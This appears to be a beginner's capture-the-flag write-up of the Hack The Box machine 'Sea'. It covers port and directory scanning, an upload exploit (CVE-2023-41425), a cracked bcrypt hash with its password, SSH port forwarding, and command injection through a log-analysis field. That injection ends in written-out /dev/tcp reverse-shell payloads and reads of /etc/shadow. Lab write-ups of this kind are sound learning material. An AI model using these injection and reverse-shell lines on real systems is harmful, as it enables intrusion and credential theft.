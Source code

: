 # Sea

<details>
<summary><strong>Summary</strong></summary>
The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<summary><strong>What I Learned</strong></summary>
<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>
</details>

## Writeup

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Find a registration page on the machine
![alt text](images/image9.png)

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled  
 • `DocumentRoot category in Directory`  
 • `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`
![alt text](images/image.png)

Cannot access root/monitoring file, but can set up port forward and access it
![alt text](images/image-1.png)

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)  
 • `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic  
 • `curl <IP>/random_text`

Check to see if you can inject php code into log file  
 • Set up a proxy and use it to try to run a command  
 ○ KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`  
 • Intercept it with Burp, change to a more suspicious command agent

![alt text](images/image-2.png)
![alt text](images/image-3.png)
![alt text](images/image-5.png)

Try to get other files  
 • `/root/root.txt`  
 • `/etc/passwd`  
 • `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
`log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

![alt text](images/image-4.png)
